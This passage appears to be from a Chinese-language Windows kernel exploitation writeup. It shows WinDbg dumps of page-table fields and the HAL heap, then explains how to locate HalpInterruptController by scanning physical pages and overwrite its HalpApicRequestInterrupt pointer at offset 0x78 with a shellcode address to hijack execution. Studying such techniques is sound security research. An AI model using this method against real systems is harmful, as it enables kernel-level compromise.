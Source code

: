 ```
   +0x000 WriteThrough     : 0y0
   +0x000 CacheDisable     : 0y0
   +0x000 Accessed         : 0y1
   +0x000 Dirty            : 0y1
   +0x000 LargePage        : 0y0
   +0x000 Global           : 0y1
   +0x000 CopyOnWrite      : 0y0
   +0x000 Unused           : 0y0
   +0x000 Write            : 0y1
   +0x000 PageFrameNumber  : 0y000000000000000000000001001110110010 (0x13b2)
   +0x000 ReservedForHardware : 0y0000
   +0x000 ReservedForSoftware : 0y0000
   +0x000 WsleAge          : 0y0000
   +0x000 WsleProtection   : 0y000
   +0x000 NoExecute        : 0y0
```

**寻找HAL：**

HAL堆是在HAL.DLL引导过程中创建的，HAL堆上存放了HalpInterruptController（目前也是随机化的），其中保存了一些函数指针，其偏移0x78处存放了hal!HalpApicRequestInterrupt函数指针。这个函数和中断相关，会被系统一直调用，所以可通过覆盖这个指针劫持执行流程。

```
0: kd&gt; dq poi(hal!HalpInterruptController)
fffff7e6`80000698  fffff7e6`800008f0 fffff802`04486e50
fffff7e6`800006a8  fffff7e6`800007f0 00000000`00000030
fffff7e6`800006b8  fffff802`04422d80 fffff802`04421b90
fffff7e6`800006c8  fffff802`04422520 fffff802`044226e0
fffff7e6`800006d8  fffff802`044226b0 00000000`00000000
fffff7e6`800006e8  fffff802`044223c0 00000000`00000000
fffff7e6`800006f8  fffff802`04454560 fffff802`04432770
fffff7e6`80000708  fffff802`04421890 fffff802`0441abb0

0: kd&gt; u fffff802`0441abb0
hal!HalpApicRequestInterrupt:
fffff802`0441abb0 48896c2420      mov     qword ptr [rsp+20h],rbp
fffff802`0441abb5 56              push    rsi
fffff802`0441abb6 4154            push    r12
fffff802`0441abb8 4156            push    r14
fffff802`0441abba 4883ec40        sub     rsp,40h
fffff802`0441abbe 488bb42480000000 mov     rsi,qword ptr [rsp+80h]
fffff802`0441abc6 33c0            xor     eax,eax
fffff802`0441abc8 4532e4          xor     r12b,r12b

```

可通过遍历物理页找到HalpInterruptController地址，如下所示，在虚拟机调试环境下该地址位于第一个物理页。在获得这个地址后，可通过0x78偏移找到alpApicRequestInterrupt函数指针地址，覆盖这个地址为Shellcode地址0xfffff78000000800，等待劫持执行流程。

```
1: kd&gt; !dq 1000
#    1000 00000000`00000000 00000000`00000000
#    1010 00000000`01010600 00000000`00000000
#    ......
#    18f0 fffff7e6`80000b20 fffff7e6`80000698
#    1900 fffff7e6`80000a48 00000000`00000004
```
